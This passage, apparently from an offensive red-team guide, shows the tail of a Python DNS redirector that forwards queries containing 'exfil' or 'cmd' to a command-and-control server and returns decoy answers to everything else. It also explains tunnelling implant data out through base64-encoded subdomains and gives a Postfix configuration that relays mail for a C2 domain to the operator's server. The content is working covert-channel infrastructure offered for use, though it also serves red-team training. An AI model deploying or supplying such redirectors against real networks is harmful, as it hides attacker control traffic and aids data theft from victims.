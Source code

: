 ```python
    if "exfil" in domain or "cmd" in domain:
        # Forward to actual C2 DNS server
        c2_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        c2_sock.sendto(data, ("192.168.100.10", 53))
        c2_response, _ = c2_sock.recvfrom(1024)
        server_sock.sendto(c2_response, client_addr)
    else:
        # Handle normally or return predefined response
        qname = request.q.qname
        reply = request.reply()
        reply.add_answer(dnslib.RR(qname, dnslib.QTYPE.A, rdata=dnslib.A("203.0.113.10")))
        server_sock.sendto(reply.pack(), client_addr)

def main():
    server_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_sock.bind(("0.0.0.0", 53))
    
    print("DNS redirector running...")
    
    while True:
        data, client_addr = server_sock.recvfrom(1024)
        thread = threading.Thread(target=dns_handler, args=(data, client_addr, server_sock))
        thread.daemon = True
        thread.start()

if __name__ == "__main__":
    main()
```

This Python script implements a custom DNS server that:

- Listens for incoming DNS queries on UDP port 53
- Parses queries using the dnslib library
- Identifies special subdomain patterns that indicate C2 traffic
- Selectively forwards these queries to your actual C2 server
- Returns legitimate-looking responses for all other queries
- Uses threading to handle multiple concurrent requests

The power of DNS tunneling lies in its ability to encode command and control data within seemingly innocent DNS queries. For example, an implant might encode a command response in a series of subdomain queries like `base64encodeddata123.exfil.c2domain.com`, which the DNS redirector recognizes and forwards appropriately.

### SMTP Redirectors

Email-based command and control channels provide yet another covert communication option, especially useful in environments where security monitoring focuses primarily on web traffic. SMTP redirectors can forward specially crafted emails between implants and the C2 server.

Here's a basic Postfix configuration for an SMTP redirector:

```bash
# Postfix main.cf snippet
relay_domains = legitimate-company.com, c2domain.com
transport_maps = hash:/etc/postfix/transport

# /etc/postfix/transport
c2domain.com    smtp:[192.168.100.10]
```
